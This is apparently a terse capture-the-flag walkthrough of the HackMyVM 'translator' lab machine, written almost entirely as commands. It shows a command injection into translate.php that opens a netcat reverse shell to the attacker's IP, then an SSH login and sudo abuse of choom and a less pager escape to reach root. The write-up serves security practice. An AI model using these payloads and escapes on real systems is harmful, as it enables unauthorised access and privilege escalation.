 ```yaml
---
title: "translator - sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - translator
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# translator - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|translator|
|Author:|[sml](https://hackmyvm.eu/profile/?user=sml)|
|Release date:|2022-05-12|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=translator)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|tricks |

# 00. Beginning
My another shortest entry.
{: .text-justify}
# 01.
## Sending
```bash
curl 'http://172.16.1.121/translate.php?hmv=;mx%20-x%20yzhs%20172.16.1.89%2012345'
```
## Receiving
```bash
nc -lvp 12345
```
# 02. 
```bash
cat /var/www/html/hvxivg
```
## My password is:
```bash
curl 'http://172.16.1.121/translate.php?hmv=Mb+kzhhdliw+rh+zbfie3w4'
```
# 03.
```bash
ssh ocean@http://172.16.1.121
```
# 04.
```bash
sudo -uindia /usr/bin/choom -n 0 -- bash
```
# 05.
```bash
sudo /usr/local/bin/trans -pager less
translator
```
# 06. Final
```bash
translator
/ˈtranzˌlādər/

(♂) traductor
(♀) traductora

Definiciones de translator
[ English -> Español ]

sustantivo
    (el) traductor
        translator, interpreter, dragoman

translator
    traductor, intérprete
!bash
```
```bash
# sudo /usr/local/bin/trans -pager less
translator
Did you mean: translate
root@translator:/home/ocean# 
```